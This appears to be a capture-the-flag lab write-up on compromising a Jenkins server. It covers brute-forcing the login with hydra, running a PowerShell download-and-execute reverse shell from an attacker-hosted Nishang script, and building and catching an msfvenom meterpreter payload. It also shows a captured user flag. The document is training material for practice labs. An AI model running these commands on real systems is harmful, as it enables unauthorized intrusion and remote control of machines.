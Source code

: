 - 3

**What is the username and password for the log in panel(in the format username:password)**

http://10.10.112.98:8080/login

Some google we find the default login is admin/password but that password doesnt work. Need to find the pass

Intercepting the login request in burpsuite proxy we can see this is a POST request to /j_acegi_security_check

- Lets try to use hydra to find a login ``hydra -t 16 -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt 10.10.21.129 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"``

![0xskar](/assets/alfred01.png)

**Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port** You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server**

**What is the user.txt flag?**

1. ``wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`` 
2. ``python3 -m http.server``
3. paste code into Jenkins Project Configure``powershell iex (New-Object Net.WebClient).DownloadString('http://10.x.x.x:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.x.x.x -Port 6667``

PS C:\users\bruce\Desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0

* * *

## Task 2 - Switching Shells

1. Create payload ``msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.x.x.x LPORT=6666 -f exe -o shell.exe``
2. Input into Jenkins after starting a new project with copied settings 
3.
to download payload to target: ``powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.x.x.x:8000/shell.exe','shell.exe')"``
4. Setup listener in ``msfconsole`` on kali: ``use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.x.x.x set LPORT 6666 run``
5. Traverse to new directory with shell.exe and input into first Powershell to start meterpreter reverse shell: ``Start-Process "shell.exe"``

![0xskar](/assets/alfred02.png)

##   Answer the questions below
